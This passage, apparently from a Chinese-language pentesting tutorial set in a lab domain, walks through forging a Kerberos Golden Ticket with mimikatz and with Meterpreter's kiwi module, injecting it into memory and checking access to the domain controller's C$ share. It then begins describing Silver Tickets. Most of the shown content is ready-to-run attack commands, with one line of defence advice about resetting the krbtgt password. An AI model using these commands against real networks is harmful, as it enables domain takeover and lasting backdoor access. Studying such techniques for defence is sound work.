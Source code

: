 **（2）生成票据**

```bash
mimikatz.exe "kerberos::golden /admin:Administrator /domain:wintrysec.lab /sid:S-1-5-21-1160434164-3042164129-2463410311 /krbtgt:a8424e3f13e1253ea732a5245f2f4266 /ticket:Administrator.kiribi" exit
```

**4、将票据注入内存**

```bash
mimikatz.exe "kerberos::ptt Administrator.kiribi" exit
```

**5、检索当前会话中的票据**

```bash
mimikatz.exe "kerberos::tgt" exit
```

**6、权限验证**

列出域控的C盘

```
dir \\DC\c$
```

**使用meterpreter中的kiwi模块** 

```bash
meterpreter> load kiwi

#创建票据
meterpreter> golden_ticket_create -d wintrysec.lab -u Administrator -s S-1-5-21-1160434164-3042164129-2463410311 -k a8424e3f13e1253ea732a5245f2f4266 -t /tmp/krbtgt.ticket

#注入到内存
meterpreter> kerberos_ticket_use /tmp/krbtgt.ticket

#然后验证权限
dir \\DC\c$
```

> **当拿到域控后，通过伪造黄金票据，可以在域中留下一个畅通全域的后门**
>
> **防御方法：**修改域管理员密码后，同时也要修改`krbtgt`用户的密码

## 白银票据 （Silver Ticket）

> **白银票据**：即伪造的`TGS`票据，也称服务票据ST。
>
> 攻击者通过伪造合法的TGS，可以直接发送给Server，访问指定的某个服务。
>
> 当拥有Server(Service) Hash时，我们就可以伪造一个不经过KDC认证的一个Ticket。
>
> Server Session Key在未发送Ticket之前，服务器是不知道Server Session Key是什么的。
>
> 因此，银票的关键也在于Server的HTLM-Hash
